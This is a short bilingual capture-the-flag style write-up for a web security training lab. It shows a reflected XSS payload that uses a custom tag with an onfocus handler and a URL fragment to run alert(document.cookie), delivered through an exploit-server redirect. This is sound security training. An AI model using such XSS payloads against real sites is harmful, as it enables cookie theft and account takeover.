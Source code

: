 1. Go to the exploit server and paste the following code, replacing `YOUR-LAB-ID` with your lab ID:

   ```
   <script>
   location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
   </script>
   ```

2. Click "Store" and "Deliver exploit to victim".

This injection creates a custom tag with the ID `x`, which contains an `onfocus` event handler that triggers the `alert` function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the `alert` payload to be called.

### 步骤

```
0aef004f04c61bbf84f5550f00200006
```

插入：

```
<script>
location = 'https://0aef004f04c61bbf84f5550f00200006.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

把恶意 链接发给目标

```http
https://0aef004f04c61bbf84f5550f00200006.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x
```

<img src=".\图片\Snipaste_2023-07-02_13-05-48.png" alt="Snipaste_2023-07-02_13-05-48" style="zoom:80%;" />
